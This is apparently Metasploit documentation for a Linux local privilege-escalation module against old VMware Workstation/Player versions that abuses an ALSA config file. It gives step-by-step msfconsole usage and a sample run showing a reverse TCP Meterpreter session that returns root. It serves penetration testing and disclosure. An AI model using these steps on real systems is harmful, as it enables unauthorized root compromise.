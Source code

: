## Description

  This module exploits a vulnerability in VMware Workstation Pro and Player before version 12.5.6 on Linux which allows users to escalate their privileges by using an ALSA configuration file to load and execute a shared object as root when launching a virtual machine with an attached sound card.


## Vulnerable Application

  VMware Workstation Pro and VMware Workstation Player are the industry standard for running multiple operating systems as virtual machines on a single PC. Thousands of IT professionals, developers and businesses use Workstation Pro and Workstation Player to be more agile, more productive and more secure every day.

  This module has been tested successfully on:

  * VMware Player version 12.5.0 on Debian Linux


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/linux/local/vmware_alsa_config`
  4. Do: `set SESSION [SESSION]`
  5. Do: `check`
  6. Do: `run`
  7. You should get a new root session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf exploit(vmware_alsa_config) > check

  [!] SESSION may not be compatible with this module.
  [+] Target version is vulnerable
  [+]  The target is vulnerable.
  msf exploit(vmware_alsa_config) > run

  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 172.16.191.181:4444 
  [+] Target version is vulnerable
  [*] Launching VMware Player...
  [*] Meterpreter session 2 opened (172.16.191.181:4444 -> 172.16.191.221:33807) at 2017-06-23 08:22:11 -0400
  [*] Removing /tmp/.baVu7FwzlaIQyp
  [*] Removing /home/user/.asoundrc

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.221
  OS           : Debian 8.8 (Linux 3.16.0-4-amd64)
  Architecture : x64
  Meterpreter  : x64/linux
  ```

